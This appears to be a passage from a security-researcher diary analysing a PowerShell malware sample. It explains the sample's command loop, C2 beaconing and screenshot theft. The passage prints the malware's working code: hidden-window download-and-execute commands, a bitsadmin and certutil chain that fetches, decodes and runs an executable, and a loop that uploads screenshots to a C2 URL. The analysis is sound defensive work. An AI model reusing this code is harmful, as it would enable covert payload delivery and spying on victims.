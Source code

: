$line=Get-Content $pp
if ($line -match "run="){
  $u=$line -replace 'run=','';
  $ldf="/C powershell.exe  -command iex ((nEw-ObJect ('NEt.WeBclient')).('DowNLoAdStrInG').invoKe(('"+$u+"')))";
  start-process -wiNdowStylE HiDden $dm0 $ldf;
} elseif ($line -match "updateps=") {
  $u=$line -replace 'updateps=','';
  $ldf="/C powershell.exe  -command iex ((nEw-ObJect ('NEt.WeBclient')).('DowNLoAdStrInG').invoKe(('"+$u+"')))";
  start-process -wiNdowStylE HiDden $dm0 $ldf;
  try{ if([System.IO.File]::Exists($pp+"_0")){ Remove-Item $pp"_0";} }catch{}
  try{ if([System.IO.File]::Exists($pp+"_1")){ Remove-Item $pp"_1";} }catch{}
  try{ if([System.IO.File]::Exists($pp+"_2")){ Remove-Item $pp"_2";} }catch{}
  try{ Remove-Item $pp; }catch{}
  break;break;break;break;
}elseif ($line.length -gt 3) {
  $rp= -join ((65..90) + (97..122) | Get-Random -Count 16 | % {[char]$_})
  $ldf='/C bitsadmin /transfer '+$rp+' /download /priority FOREGROUND '+$line+' '+$path+'\'+$uuid+'_'+$rp+'.txt & Copy /Z '+$path+'\'+$uuid+'_'+$rp+'.txt '+$path+'\'+$uuid+'_'+$rp+'_1.txt & certutil -decode '+$path+'\'+$uuid+'_'+$rp+'_1.txt '+$path+'\'+$uuid+'_'+$rp+'.exe & powershell -command "start-process '+$path+'\'+$uuid+'_'+$rp+'.exe" >> '+$path+'\'+$uuid+''+$rp+'.log & bitsadmin /transfer '+$rp+'s /download /priority normal "'+$d[$did]+'?ts=1&id='+$uuid+'&c='+$rp+'" '+$path+'\'+$uuid+'_'+$rp+'.txt';
  start-process -wiNdowStylE HiDden $dm0 $ldf;
}
If the line starts with ‘run=‘, a new PowerShell script is downloaded and executed.
If the line starts with ‘updateps=‘, another script is downloaded and previous files are removed if existing.
Otherwise, the line contains an URL which is downloaded. The data is Base64 encoded, is decoded with certutil.exe and executed. Another HTTP request is performed:

"hxxps://cflfuppn[.]eu/sload/gate.php?ts=1&id=C3FB4D56-AA47-B150-E48F-6ECA7E0F9A1F&c=PFexTUwEzpGXXgwl”
This looks like clearly a communication channel with the C2.
Then, five screenshots are performed:

for ($i=0;$i -le 5;$i++){
  Get-ScreenCapture;
  Start-Sleep -s 40
}
And uploaded to the C2:

$c=0;
$screenCapturePathBase =  $path+"\ScreenCapture";
while (Test-Path "${screenCapturePathBase}${c}.jpg") {
  try{ Invoke-RestMethod -Uri "https://cflfuppn.eu/sload/u.php?id=$uuid&i=$c" -Method Post -InFile "${screenCapturePathBase}${c}.jpg"  -UseDefaultCredentials }catch{}
  Remove-Item "${screenCapturePathBase}${c}.jpg";
  $c++;
}
All this code is placed in the script main loop with a sleep time of 600 seconds. 
Do you have more information about the missing payloads? Please share.
[1] https://www.virustotal.com/#/file/89c97d1b29ea78baf061e31e8d5258abcdd2cd3830ab9f9e9b6a47bb64d05ccb/community [2] https://www.virustotal.com/#/file/3e00ef97f017765563d61f31189a5b86e5f611031330611b834dc65623000c9e/detection
Xavier Mertens (@xme)
ISC Handler - Freelance Security Consultant
PGP Key
